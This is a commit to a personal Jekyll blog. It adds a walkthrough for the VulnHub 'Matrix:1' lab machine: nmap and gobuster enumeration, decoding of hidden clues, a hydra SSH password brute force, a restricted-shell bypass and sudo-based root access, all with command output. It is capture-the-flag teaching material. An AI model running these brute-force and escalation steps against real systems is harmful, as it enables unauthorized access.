

Before and after one commit to iamnasef/0xnasef.github.io, a Jekyll site: the page built from index.md, in a window 1280 px wide. Shown: the top 636 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Matrix Walkthrough

````diff
--- a/_posts/2020-09-24-VH_Ted.markdown
+++ b/_posts/2020-09-24-VH_Ted.markdown
@@ -1,6 +1,6 @@
 ---
 layout: post
-title:  "Ted:1 Vulnhub Writeup"
+title:  "Ted:1 Vulnhub Walkthrough"
 date:   2020-09-24 15:00:00 +0530
 categories: VulnHub CTF
 ---
--- /dev/null
+++ b/_posts/2020-09-25-VH_Matrix.markdown
@@ -0,0 +1,155 @@
+---
+layout: post
+title:  "Matrix:1 Vulnhub Walkthrough"
+date:   2020-09-24 15:00:00 +0530
+categories: VulnHub CTF
+---
+Matrix:1 is a machine in which I used Enumeration to obtain shell access and then exploited the misconfigured sudo permissions to get root Access.
+
+## Scanning
+As always, I started scanning with Nmap
+
+```
+root@kali:/home/kali# nmap -sC -sV 192.168.198.139
+Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-25 00:30 EDT
+Nmap scan report for 192.168.198.139
+Host is up (0.000096s latency).
+Not shown: 997 closed ports
+PORT      STATE SERVICE VERSION
+22/tcp    open  ssh     OpenSSH 7.7 (protocol 2.0)
+| ssh-hostkey:
+|   2048 9c:8b:c7:7b:48:db:db:0c:4b:68:69:80:7b:12:4e:49 (RSA)
+|   256 49:6c:23:38:fb:79:cb:e0:b3:fe:b2:f4:32:a2:70:8e (ECDSA)
+|_  256 53:27:6f:04:ed:d1:e7:81:fb:00:98:54:e6:00:84:4a (ED25519)
+80/tcp    open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
+|_http-server-header: SimpleHTTP/0.6 Python/2.7.14
+|_http-title: Welcome in Matrix
+31337/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
+|_http-title: Welcome in Matrix
+MAC Address: 00:0C:29:43:C6:92 (VMware)
+
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 9.96 seconds
+```
+Interesting two http services!
+## Web Enumeration
+Then I enumerated directories and files using gobuster on both services but there is no useful information
+
+```
+root@kali:/home/kali# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.198.139 -x php,html,json,py,matrix
+===============================================================
+Gobuster v3.0.1
+by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
+===============================================================
+[+] Url:            http://192.168.198.139
+[+] Threads:        10
+[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
+[+] Status codes:   200,204,301,302,307,401,403
+[+] User Agent:     gobuster/3.0.1
+[+] Extensions:     matrix,php,html,json,py
+[+] Timeout:        10s
+===============================================================
+2020/09/25 00:50:40 Starting gobuster
+===============================================================
+/index.html (Status: 200)
+/assets (Status: 301)
+/80.py (Status: 200)
+[ERROR] 2020/09/25 00:51:41 [!] Get http://192.168.198.139/page22.php: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)
+[ERROR] 2020/09/25 00:59:13 [!] Get http://192.168.198.139/35921.php: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)
+[ERROR] 2020/09/25 01:00:48 [!] Get http://192.168.198.139/helpweb.html: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)
+[ERROR] 2020/09/25 01:02:08 [!] Get http://192.168.198.139/151871_1: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
+[ERROR] 2020/09/25 01:02:09 [!] Get http://192.168.198.139/lang_ko.py: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
+[ERROR] 2020/09/25 01:02:09 [!] Get http://192.168.198.139/28672.json: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
+[ERROR] 2020/09/25 01:02:09 [!] Get http://192.168.198.139/inalambrico.py: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
+[ERROR] 2020/09/25 01:07:53 [!] Get http://192.168.198.139/gisabm.php: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)
+===============================================================
+2020/09/25 01:14:21 Finished
+===============================================================
+
+```
+Nothing really important here.
+## Inspecting Element
+So, I started digging in the http services in port 80 and 3117. I found a base64 encoded text while inspecting element on port 31337.
+
+![Username](/assets/machines/vulnhub/matrix/1.png)
+
+## Cracking
+
+After decoding
+
+![Username](/assets/machines/vulnhub/matrix/2.png)
+
+so I visted http://192.168.198.139:1337/Cypher.matrix , a filed was downloaded which contained this strange ciphertext
+
+![Username](/assets/machines/vulnhub/matrix/3.png)
+
+I used online crypto Identifier and the text was identified as Brainfuck Endcoding
+
+![Username](/assets/machines/vulnhub/matrix/4.png)
+
+So I used another online tool to decode the text
+
+![Username](/assets/machines/vulnhub/matrix/5.png)
+
+The text contains our password with missing two letters so I used an online combination
+maker and prefix adder to make my wordlist
+![Username](/assets/machines/vulnhub/matrix/6.png)
+
+Then I used hydra to bruteforce the ssh password
+
+```
+hydra -f -l guest -P Downloads/output.txt ssh://192.168.198.139
+Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
+
+Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-25 01:13:47
+[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
+[DATA] max 16 tasks per 1 server, overall 16 tasks, 1296 login tries (l:1/p:1296), ~81 tries per task
+[DATA] attacking ssh://192.168.198.139:22/
+
+[STATUS] 178.00 tries/min, 178 tries in 00:01h, 1120 to do in 00:07h, 16 active
+[STATUS] 166.00 tries/min, 498 tries in 00:03h, 800 to do in 00:05h, 16 active
+[STATUS] 153.29 tries/min, 1073 tries in 00:07h, 225 to do in 00:02h, 16 active
+[22][ssh] host: 192.168.198.139   login: guest   password: k1ll0r7n
+[STATUS] attack finished for 192.168.198.139 (valid pair found)
+1 of 1 target successfully completed, 1 valid password found
+Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-25 01:21:21
+```
+
+## Privilege Escalation
+When I sshed to the user guest, it gave me a restricted shell so I bypassed the restriction by using this command
+
+```
+root@kali:/home/kali# ssh guest@192.168.198.139 -t bash
+
+```
+
+I ran diffreent Enumeration scripts and found an intersting sudo privilege which allows us to run all commands
+
+```
+guest@porteus:/tmp$ sudo -l
+User guest may run the following commands on porteus:
+    (ALL) ALL
+    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper
+    (trinity) NOPASSWD: /bin/cp
+
+```
+
+So
+
+```
+guest@porteus:/tmp$ sudo su
+Password:
+root@porteus:/tmp# cat /root/flag.txt
+   _,-.
+,-'  _|                  EVER REWIND OVER AND OVER AGAIN THROUGH THE
+|_,-O__`-._              INITIAL AGENT SMITH/NEO INTERROGATION SCENE
+|`-._\`.__ `_.           IN THE MATRIX AND BEAT OFF
+|`-._`-.\,-'_|  _,-'.
+     `-.|.-' | |`.-'|_     WHAT
+        |      |_|,-'_`.
+              |-._,-'  |     NO, ME NEITHER
+         jrei | |    _,'
+              '-|_,-'          IT'S JUST A HYPOTHETICAL QUESTION
+
+```
+and voila here is the root privilege!
````
Also changed, not shown: assets/machines/vulnhub/matrix/1.png (added), assets/machines/vulnhub/matrix/2.png (added), assets/machines/vulnhub/matrix/3.png (added), assets/machines/vulnhub/matrix/4.png (added), assets/machines/vulnhub/matrix/5.png (added), assets/machines/vulnhub/matrix/6.png (added).
